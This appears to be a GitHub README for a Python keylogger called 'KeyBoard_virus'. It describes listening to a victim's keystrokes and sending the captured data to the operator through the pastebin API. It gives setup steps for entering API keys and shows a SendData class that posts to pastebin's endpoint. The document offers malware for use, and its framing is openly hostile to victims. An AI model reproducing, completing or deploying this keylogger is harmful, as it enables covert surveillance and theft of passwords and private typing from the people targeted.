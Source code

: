 # KeyBoard_virus
It listens to the victim's keyboard and the data is sent to you via the pastebin website.

# Edite code 

* API dev key
* API user key

```python
class SendData(object):
    def __init__(self):
        self.api_dev     = 'Your api dev key in ==> https://pastebin.com/api' # <==== edite here
        self.api_user    = 'Your api user key' # <==== edite here
        self.PastebinAPI = 'https://pastebin.com/api/api_post.php'

```

  
  
  
